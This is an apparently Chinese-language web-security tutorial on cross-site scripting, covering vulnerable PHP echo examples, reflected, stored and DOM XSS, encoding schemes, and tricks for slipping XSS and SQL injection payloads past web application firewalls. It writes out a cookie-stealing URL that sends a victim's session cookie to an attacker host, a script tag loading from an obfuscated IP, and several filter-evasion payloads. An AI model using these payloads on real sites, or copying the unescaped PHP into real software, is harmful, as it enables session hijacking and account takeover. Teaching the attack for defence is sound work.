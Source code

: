 XSS

1.跨站脚本攻击(Cross Site Scripting)

（1）在输入框内
<form action="" method="get">
<input type="text" name="xss_input">
<input type="submit">
</form>
<?php
$xss = $_GET['xss_input'];
echo '你输入的字符为'.$xss;
?>


我们在搜索框输入<script>alert('xss')</script>


成功弹窗，这个时候基本上就可以确定存在xss漏洞。

（2）在属性内
<form action="" method="get">
<input type="text" name="xss_input_value" value="输入">
<input type="submit">
</form>
<?php
$xss = $_GET['xss_input_value'];
if(isset($xss)){
echo '<input type="text" value="'.$xss.'">';
}else{
echo '<input type="type" value="输出">';
}
?>


可以在<script>alert(xss)</script>前面加个">来闭合input标签。也能成功弹窗了



（3）用标签里的属性来构造XSS

比如这个xss代码 我们可以写成" onclick="alert(&#039;xss&#039;)
当你的鼠标点击第二个input输入框的时候，就会触发onclick事件，然后执行alert(&#039;xss&#039;)代码。



XSS就是在页面执行你想要的js


2.XSS的种类

（1）反射型XSS
如果一个WEB应用程序使用动态页面传递参数向用户显示错误信息，就有可能会造成一种常见的XSS漏洞。一般情况下，这种页面使用一个包含消息文本的参数，并在页面加载时将文本返回给用户。对于开发者来说，使用这种方法非常方便，因为这样的解决方法可方便的将多种不同的消息返回状态，使用一个定制好的信息提示页面。

例如，通过程序参数输出传递的参数到HTML页面，则打开下面的网址将会返回一个消息提示：
http://fovweb.com/xss/message.php?send=Hello,World!
输出内容：
Hello,World!

此程序功能为提取参数中的数据并插入到页面加载后的HTML代码中，这是XSS漏洞的一个明显特征：如果此程序没有经过过滤等安全措施，则它将会很容易受到攻击。

在原程序的URL的参数为，替换为我们用来测试的代码：
http://fovweb.com/xss/message.php?send=<script>alert(‘xss’)</script>
页面输出内容则为：
<script>alert(‘xss’)</script>

当用户在用户浏览器打开的时，将会弹出提示消息。

在目前互联网的Web程序中存在的XSS漏洞，有近75%的漏洞属于这种简单的XSS漏洞。由于这种漏洞需要发送一个包含了嵌入式JavaScript代码的请求，随后这些代码被反射给了发出请求的用户，因此被称为反射型XSS。攻击有效符合分别通过一个单独的请求与响应进行传送和执行，因为也被称为一阶XSS。
利用漏洞
利用XSS漏洞攻击Web程序的其它用户的方式有很多种。最简单的一种攻击方法是，利用XSS漏洞来劫持已通过验证的用户的会话。劫持到已验证的会话后，攻击发起者则拥有该授权用户的所有权限。

利用反射型XSS漏洞进行会话权限劫持的攻击步骤

（1）用户正常登录Web应用程序，登录成功会得到一个会话信息的
cookie：Set-cookie:sessId = f16e1035c301aa099c971682d806c0c7f16e1035c301aa099c971682d806c0c7

（2）攻击者将含有攻击代码的URL发送给被攻击人；
http://fovweb.com/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22http://hacker.fovweb.com/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E

Url解码后:
http://fovweb.com/xss/message.php?send=<script>document.write(‘<img height=0 width=0 src=”http://hacker.fovweb.com/xss/cookie_save.php?cookie=encodeURL(document.cookie)"/>')</script>

（3）用户打开攻击者发送过来的ULR；
	（4）Web应用程序执行用户发出的请求；
	（5）同时也会执行该URL中所含的攻击者的JavaScript代码；
	（6）例子中攻击者使用的攻击代码作用是将用户的cookie信息发送到cookie_save.php这个文件来记录下来；
	（7）攻击者在得到用户的cookie信息后，将可以利用这些信息来劫持用户的会话。以该用户的身份进行登录


（2）存储型XSS

存储型跨站可以将XSS语句直接写入到数据库中，因而相比反射型跨站的利用价值要更大。

例如：这里提供了一个类型留言本的页面。

这里在Message框输入跨站语句“alert('hi')”，以后任何人只要访问这个留言页面，就可以触发跨站语句，实现弹框。当然，弹框并不是目的，XSS的主要用途之一是盗取cookie，也就是将用户的cookie自动发送到黑客的电脑中。

（3）DOM XSS

DOM XSS是基于在js上的。而且他不需要与服务端进行交互，像反射、储蓄都需要服务端的反馈来构造xss，因为服务端对我们是不可见的。
在网站页面中有许多页面的元素，当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。
可能触发DOM型XSS的属性：
document.referer属性
window.name属性
location属性
innerHTML属性
documen.write属性

下面我举个最简单的例子：

在1.html里输入
<script>
document.write(document.URL.substring(document.URL.indexOf("a=")+2,document.URL.length));
</script>

在URL获取a=后面的值，然后把a=后面的值给显示出来。

我们可以在1.html后输入?a=123或则#a=123，只要不影响前面的路径，而且保证a=出现在URL就可以了。

我们清楚的看到我们输入的字符被显示出来了。

那我们输入<script>alert("xss")</script>会怎么样呢？答案肯定是弹窗。





3.常见的编码方法

（1）URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。
URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

（2） unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。
Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

（3）HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。
例如：
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
可以正常显示。
但是当你把src或者img进行html编码就不行了，例如：
<img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>


4.常见的绕过WAF（Web应用防火墙）

(一)：大小写转换法：
看字面就知道是什么意思了，就是把大写的小写，小写的大写。比如:
SQL：sEleCt vERsIoN();
‍‍XSS：<sCrIpt>alert(1)</script>
出现原因：在waf里，使用的正则不完善或者是没有用大小写转换函数

(二)：干扰字符污染法：
空字符、空格、TAB换行、注释、特殊的函数等等都可以。比如下面的：
SQL：sEleCt+1-1+vERsIoN   /*!*/       ();`yohehe‍‍
‍‍SQL2：select/*!*/`version`();
出现原因：利用网站使用的语言函数特性来绕过waf的规则或者使用会无视的字符

(三)：字符编码法：
就是对一些字符进行编码，常见的SQL编码有unicode、HEX、URL、ascll、base64等，XSS编码有：HTML、URL、ASCII、JS编码、base64等等
SQL:load_file(0x633A2F77696E646F77732F6D792E696E69)
‍‍‍‍XSS：<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>
出现原因：利用浏览器上的进制转换或者语言编码规则来绕过waf

(四)：拼凑法：
如果过滤了某些字符串，我们可以在他们两边加上“原有字符串”的一部分。
SQL：selselectect verversionsion();
‍‍‍‍XSS：<scr<script>rip>alalertert</scr</script>rip>
出现原因：利用waf的不完整性，只验证一次字符串或者过滤的字符串并不完整


